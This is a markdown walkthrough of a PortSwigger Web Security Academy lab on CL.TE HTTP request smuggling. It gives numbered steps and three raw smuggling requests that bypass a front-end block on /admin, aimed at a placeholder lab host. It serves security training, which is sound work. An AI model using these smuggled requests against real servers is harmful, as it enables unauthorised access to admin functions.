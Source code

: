 ## Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

tags: if nothing works / comes into mind


### Quick Solution
This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent. Payloads in the next paragraph.


### Solution
1. Try to visit ``/admin`` and observe that the request is blocked.
2. Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
3. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
4. Issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```